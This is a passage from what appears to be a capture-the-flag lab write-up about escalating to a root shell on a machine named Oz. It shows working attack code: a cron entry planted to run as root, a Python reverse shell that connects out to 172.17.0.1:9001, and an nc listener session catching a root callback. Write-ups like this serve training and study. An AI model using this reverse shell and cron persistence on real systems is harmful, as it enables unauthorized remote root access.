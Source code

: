 ## root Shell

Obviously I want a shell. There's a ton of different ways to go from
full file system read/write to shell. I'll show a two.

### Cron

Create two files:

-   `/rootfs/etc/cron.d/shell`:

    <div>

    <div>

        SHELL=/bin/sh
        PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
        * * * * *   root    python /tmp/shell.py

    </div>

    </div>

-   `/rootfs/tmp/shell.py`:

    <div>

    <div>

        import socket
        import subprocess
        import os
          
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("172.17.0.1", 9001))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/sh","-i"])

    </div>

    </div>

Start listener on Oz, and get callback as root:



    dorthi@Oz:~$ nc -lnvp 9001
    Listening on [0.0.0.0] (family 0, port 9001)
    Connection from [10.10.10.96] port 9001 [tcp/*] accepted (family 2, sport 44048)
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # hostname
    Oz
